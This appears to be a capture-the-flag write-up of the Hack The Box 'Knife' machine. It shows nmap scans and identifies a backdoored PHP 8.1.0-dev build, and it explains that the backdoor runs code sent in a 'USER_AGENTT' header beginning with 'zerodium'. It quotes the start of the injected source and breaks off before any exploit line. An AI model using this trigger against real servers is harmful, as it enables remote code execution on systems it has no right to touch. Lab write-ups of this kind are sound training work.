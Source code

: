 ***

## Enumeration
Scanned all TCP ports:
```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Knife]
└─$ sudo nmap -sS -p- 10.10.10.242 -Pn -v -oN scans/all-tcp-ports.txt
...
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Enumerated open TCP ports:
```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Knife]
└─$ sudo nmap -sV -sC -sT -p80,22 10.10.10.242 -Pn -v -oN scans/open-tcp-ports.txt
...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Browsed port 80:
![Pasted image 20210522215422.png]({{page.screenshots}}Pasted image 20210522215422.png)


Enumerated web components:<br>
![Pasted image 20210522215529.png]({{page.screenshots}}Pasted image 20210522215529.png)

- PHP 8.1.0
- Apache 2.4.41

After some time invested in enumeration **without identifying criticality**, I **start documenting** myself **about this "strange" version of PHP** which I had never encountered before, discovering that it had been ["backdoored" while under development](https://www.csoonline.com/article/3613593/php-backdoor-attempt-shows-need-for-better-code-authenticity-verification.html).
- [Commit 1](https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a?branch=2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a&diff=unified#diff-a35f2ee9e1d2d3983a3270ee10ec70bf86349c53febdeabdf104f88cb2167961R368-R370)
- [Commit 2](https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d#diff-a35f2ee9e1d2d3983a3270ee10ec70bf86349c53febdeabdf104f88cb2167961R370)

## Foothold
The code injected within **PHP 8.1.0-dev** executes arbitrary code from the `USER_AGENTT` header when it starts with *zerodium*:
```php
...
{
	zval zoh;
	php_output_handler *h;
	zval *enc;

	if ((Z_TYPE(PG(http_globals)[TRACK_VARS_SERVER]) == IS_ARRAY || zend_is_auto_global_str(ZEND_STRL("_SERVER"))) &&
```